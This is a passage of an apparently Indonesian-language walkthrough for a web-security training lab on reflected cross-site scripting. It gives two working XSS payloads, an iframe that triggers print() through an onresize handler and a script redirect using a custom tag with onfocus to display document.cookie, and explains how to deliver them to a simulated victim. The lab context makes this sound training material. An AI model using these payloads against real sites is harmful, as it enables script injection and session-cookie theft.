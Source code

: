 ### 4. Menyusun dan Mengirimkan Payload Akhir melalui Iframe

Setelah mengetahui bahwa atribut `onresize` diperbolehkan, susun payload akhir untuk memanggil fungsi `print()` secara otomatis tanpa interaksi pengguna.

#### a. Menyusun Payload Iframe

**Kode Payload:**

```html
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/?search=%3Cbody+onresize%3Dprint%28%29%3E" height="100%" title="Iframe Example" onload="body.style.width='100px'"></iframe>
```

**Instruksi:**

1. **Ganti `YOUR-LAB-ID` dengan ID lab Anda:**
   - Contoh: Jika ID lab Anda adalah `0aea005104d1419c805a3fe60055007f`, maka URL akan menjadi `https://0aea005104d1419c805a3fe60055007f.web-security-academy.net/?search=%3Cbody+onresize%3Dprint%28%29%3E`.

2. **Sisipkan Kode Iframe ke dalam Fungsi Pencarian:**
   - Masukkan kode iframe di atas ke dalam fungsi pencarian dan kirimkan permintaan tersebut.

3. **Kirimkan Exploit ke Korban:**
   - Klik **"Store"** dan kemudian **"Deliver exploit to victim"** untuk menyampaikan exploit kepada korban.

#### b. Menambahkan Payload Tambahan untuk Menangkap Cookie

Selain payload sebelumnya, Anda juga dapat menambahkan payload berikut untuk menangkap cookie korban menggunakan event `onfocus` pada tag kustom `<xss>`.

**Kode Payload:**

```html
<script>
location = 'https://YOUR-LAB-ID.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29+tabindex=1%3E#x';
</script>
```

**Instruksi:**

1. **Ganti `YOUR-LAB-ID` dengan ID lab Anda:**
   - Contoh: Jika ID lab Anda adalah `0aea005104d1419c805a3fe60055007f`, maka URL akan menjadi `https://0aea005104d1419c805a3fe60055007f.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29+tabindex=1%3E#x`.

2. **Sisipkan Kode Script ke dalam Eksploit Server:**
   - Buka **Exploit Server** di platform lab.
   - Paste kode script di atas ke dalam kolom yang disediakan, mengganti `YOUR-LAB-ID` dengan ID lab Anda.

3. **Kirimkan Exploit ke Korban:**
   - Klik **"Store"** dan kemudian **"Deliver exploit to victim"** untuk menyampaikan exploit kepada korban.
